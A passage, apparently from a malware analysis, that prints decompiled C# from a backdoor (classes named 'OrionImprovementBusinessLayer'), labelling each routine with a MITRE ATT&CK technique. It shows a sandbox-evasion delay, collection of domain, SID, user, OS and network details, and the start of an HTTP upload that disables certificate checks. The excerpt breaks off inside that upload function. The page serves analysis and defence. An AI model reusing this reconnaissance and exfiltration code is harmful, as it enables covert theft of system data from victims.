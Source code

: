 <br /><br />
Set delay for http helper - T1587.001 Virtualization/Sandbox Evasion

```csharp
public static void SetTime(string[] args, out int delay)
{
	delay = int.Parse(args[0]);
}
```
<br /><br />
Get host info - T1082 System Information Discovery & T1016 System Network Configuration Discovery

```csharp
public static void CollectSystemDescription(string info, out string result)
{
	result = null;
	int num = 0;
	string domainName = IPGlobalProperties.GetIPGlobalProperties().DomainName;
	result = result + OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num) + domainName;
	try
	{
		string str = ((SecurityIdentifier)new NTAccount(domainName, OrionImprovementBusinessLayer.ZipHelper.Unzip("c0zJzczLLC4pSizJLwIA")).Translate(typeof(SecurityIdentifier))).AccountDomainSid.ToString();
		result = result + OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num) + str;
	}
	catch
	{
		result += OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num);
	}
	result = result + OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num) + IPGlobalProperties.GetIPGlobalProperties().HostName;
	result = result + OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num) + Environment.UserName;
	result = result + OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num) + OrionImprovementBusinessLayer.GetOSVersion(true);
	result = result + OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num) + Environment.SystemDirectory;
	result = result + OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num) + (int)TimeSpan.FromMilliseconds(Environment.TickCount).TotalDays;
	result = result + OrionImprovementBusinessLayer.Job.GetDescriptionId(ref num) + info + "\n";
	result += OrionImprovementBusinessLayer.GetNetworkAdapterConfiguration();
}
```
<br /><br />
Perform http request - T1071.001 Web Protocols

```csharp
public static void UploadSystemDescription(string[] args, out string result, IWebProxy proxy)
{
	result = null;
	string requestUriString = args[0];
	string s = args[1];
	string text = (args.Length >= 3) ? args[2] : null;
	string[] array = Encoding.UTF8.GetString(Convert.FromBase64String(s)).Split(new string[]
	{
		"\r\n",
		"\r",
		"\n"
	}, StringSplitOptions.None);
	HttpWebRequest httpWebRequest = (HttpWebRequest)WebRequest.Create(requestUriString);
	HttpWebRequest httpWebRequest2 = httpWebRequest;
	httpWebRequest2.ServerCertificateValidationCallback = (RemoteCertificateValidationCallback)Delegate.Combine(httpWebRequest2.ServerCertificateValidationCallback, new RemoteCertificateValidationCallback((object sender, X509Certificate cert, X509Chain chain, SslPolicyErrors sslPolicyErrors) => true));
```
